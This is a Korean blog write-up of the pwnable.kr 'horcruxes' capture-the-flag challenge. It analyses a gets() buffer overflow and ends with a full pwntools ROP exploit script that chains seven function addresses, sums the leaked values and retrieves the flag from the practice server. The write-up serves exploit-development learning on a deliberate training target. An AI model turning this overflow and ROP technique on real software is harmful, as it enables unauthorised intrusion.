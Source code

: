 ```yaml
---
layout: post
title: "[pwnable.kr] horcruxes 풀이"
date: 2018-09-04 19:01
categories: "[Pwn]pwnable.kr"
tags: "#UnKN0wn"
---
```

>## horcruxes - [7pt]
### Voldemort concealed his splitted soul inside 7 horcruxes.
### Find all horcruxes, and ROP it!
### author: jiwon choi<br><br>
### ssh horcruxes@pwnable.kr -p2222 (pw:guest)

---

ROP를 사용하는 문제라네요

ssh로 연결해보면 `horcruxes`와 `readme`라는 파일이 있어요.

`horcruxes`를 IDA를 이용해 분석하기위해 scp 명령어를 사용했어요

> $ scp -P 2222 horcruxes@pwnable.kr:/home/horcruxes/horcruxes ~/

# 1. 프로그램 분석

{: refdef: style="text-align: center;"}
![init_ABCDEFG](/pic/pwnable_kr/horcruxes/hor_init_ABCDEFG.png)
{: refdef}

{: refdef: style="text-align: center;"}
***init_ABCDEFG 함수***
{: refdef}

전역변수 a,b,c,d,e,f,g의 값을 랜덤으로 정해주고 모든 합을 sum에 저장하는 함수인거 같네요

{: refdef: style="text-align: center;"}
![ropme](/pic/pwnable_kr/horcruxes/hor_ropme.png)
{: refdef}

{: refdef: style="text-align: center;"}
***ropme 함수*** 
{: refdef}

각 A,B,C,D,E,F,G 함수는 각각의 변수들의 값을 출력해주는 함수가 있어요

이리고 이 모든 변수값을 더한 sum 값과 gets로 입력한 값이 같으면 

flag를 출력해주는 함수네요

그런데 이 각각의 함수에서 변수 값을 출력하기 위해서는

계속 랜덤값으로 바뀌는 각각의 변수 값을 알아야하는데

불가능해요

 `gets(s)` 부분에서 BOF가 일어나서 return 주소를 바꿔줄 수 있어요

이 부분을 이용해 exploit 코드를 짜봅시다

# 2. Exploit

```python
from pwn import *
#context.log_level='debug'

#connect ssh
s = ssh("horcruxes", "pwnable.kr", port=2222, password="guest")
#connect nc
n = s.remote("localhost", 9032)

#function address
func_A = 0x0809FE4B
func_B = 0x0809FE6A
func_C = 0x0809FE89
func_D = 0x0809FEA8
func_E = 0x0809FEC7
func_F = 0x0809FEE6
func_G = 0x0809FF05
ROPME = 0x0809FFFC

n.recvuntil('Menu:')
n.sendline('0')
n.recvuntil('earned? : ')

#ROP
payload = ""
payload += "A"*120      #buffer + sfp
payload += p32(func_A)  #return
payload += p32(func_B)
payload += p32(func_C)
payload += p32(func_D)
payload += p32(func_E)
payload += p32(func_F)
payload += p32(func_G)
payload += p32(ROPME)

n.sendline(payload)
total = 0

#calculate EXP
for i in range(0,7):
    n.recvuntil('EXP +')
    total += int(n.recvuntil(')')[:-1])
    log.info('total = ' + str(total))

#return to function 'ROPME'
n.recvuntil("Menu:")
n.sendline("0")
n.recvuntil("earned? : ")
n.sendline(str(total))

log.info("flag is : " + n.recv())
```

이런식으로 exploit 코드를 짜니 flag가 나오긴 했어요

그런데 한번씩 flag가 안나올 때가 있는데 아마 EXP값이

음수가 나올 경우가 있기 때문인거 같네요 

![exploit](/pic/pwnable_kr/horcruxes/hor_ex.png)

